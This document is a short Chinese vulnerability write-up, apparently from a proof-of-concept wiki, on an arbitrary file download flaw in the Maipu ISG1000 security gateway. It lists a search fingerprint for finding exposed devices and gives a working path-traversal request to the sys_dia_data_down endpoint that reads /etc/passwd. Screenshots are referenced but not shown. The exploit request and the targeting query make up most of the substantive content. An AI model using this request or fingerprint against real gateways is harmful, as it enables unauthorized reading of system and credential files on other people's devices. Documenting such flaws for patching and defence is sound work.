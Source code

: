 # 迈普 ISG1000安全网关 sys_dia_data_down 任意文件下载漏洞

## 漏洞描述

迈普 ISG1000安全网关 存在任意文件下载漏洞，攻击者通过漏洞可以获取服务器任意文件

## 漏洞影响

<a-checkbox checked>迈普 ISG1000安全网关</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="迈普通信技术股份有限公司"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](/assets/PeiQi-Wiki/img/image-20210604151806596.png)



请求的 POC 为



```plain
/webui/?g=sys_dia_data_down&file_name=../etc/passwd
```



![img](/assets/PeiQi-Wiki/img/image-20210604152228481.png)



若有收获，就点个赞吧